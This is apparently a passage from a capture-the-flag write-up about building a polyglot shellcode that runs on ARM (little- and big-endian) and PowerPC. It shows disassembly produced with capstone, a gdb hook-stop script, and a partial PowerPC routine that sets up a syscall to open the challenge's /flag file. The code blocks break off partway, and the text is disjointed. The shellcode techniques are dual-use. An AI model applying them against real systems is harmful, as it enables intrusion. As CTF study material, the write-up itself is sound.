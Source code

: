 <pre class="brush: plain; title: ; notranslate" title="">dd      0xEB0000E0
       dd      0xE00000EB

</pre>

Which, tnx to capstone comes to be:

<pre class="brush: plain; title: ; notranslate" title="">0x00000000: bl #0x380
0x00000004: and r0, r0, fp, ror #1

</pre>

Very good, at this offset I had:

<pre class="brush: plain; title: ; notranslate" title="">ldr    pc, [pc, #4]        &lt;--- for  armel
      ldr    pc, [pc, #4]        &lt;--- form armeb
      dd    address_of_armel_shellcode
      dd    address_of_armeb_shellcode

</pre>

Here I figured that my shellcode doesn&#8217;t get transfered as a whole, as my original first ARM instructions were going to 0x41000Fxx where I had LDR PC, [PC, #4]. Also while playing with ARM instructions in IDA, I&#8217;ve noticed that IDA showed some ARM **BEQ** instructions as **B** which was wrong. From this point on I’ve used only **capstone** as this beq/b wrong translation in IDA gave me also some headache.

Now comes 4th stage, and that was the ugliest one: **PowerPC** . I try to avoid any possible shellcode in the wild, and prefer to write my own always. For this, due to whatever reason qemu which comes with ubuntu 14.04 couldn&#8217;t run PowerPC image which I&#8217;ve located here:  
<http://people.debian.org/~aurel32/qemu/powerpc/> (you can also get armel and amrhf from this link)

No problem, downloaded qemu 2.0.0 and recompiled and it worked. Time to start writing my code. Of course, gdb is very very useless without any hookstop, so for this purpose I wrote simple  .gdbinit to help me develop this shellcode:

<pre class="brush: plain; title: ; notranslate" title="">define hook-stop
        printf "---------------------------------------------------------------n"
        printf "r0 : 0x%.08X r1 : 0x%.08X r2 : 0x%.08X r3 : 0x%.08Xn", $r0, $r1, $r2, $r3
        printf "r4 : 0x%.08X r5 : 0x%.08X r6 : 0x%.08X r7 : 0x%.08Xn", $r4, $r5, $r6, $r7
        printf "---------------------------------------------------------------n"
        x/10i   $pc
end

</pre>

We are ready to go with simple test. One thing about PowerPC syntax is that registers in assembly are represented as 0-31, so it&#8217;s sometimes hard to make difference and notice errors, which puzzled  me a lot. Here is PowerPC code  
**pc**           is set at 0&#215;41000000  
**r1** is sp and is set at 0&#215;42000000

**syscall number is passed in r0**, and **arguments follow in r3,r4 etc.** **return values are stored in r3**:

<pre class="brush: plain; title: ; notranslate" title="">addi    1, 1, 0x400             //increment stack a bit (just in case)
        xor     30, 30, 30              //wipe r30 just in case, as junk opcode modifies it
        b       __flag_address          //jmp/call simulation in PowerPC
__goback:
        xor     4,4,4
        mfspr   3, 8                    //get /flag into r3
        li      0, 5                    //load r0 with 5
        sc                              //system call (funny name of sc instruction)


 [1]: http://deroko.phearless.org/polyglot/polyglot_9d64fa98df6ee55e1a5baf0a170d3367
 [2]: http://deroko.phearless.org/polyglot/polyglot_6a3875ce36a55889427542903cd43893
 [3]: http://deroko.phearless.org/polyglot/polyglot_c0e7a26d7ce539efbecc970c154de844
 [4]: http://deroko.phearless.org/polyglot/polyglot_5b78585342a3c116aebb5a9b45e88836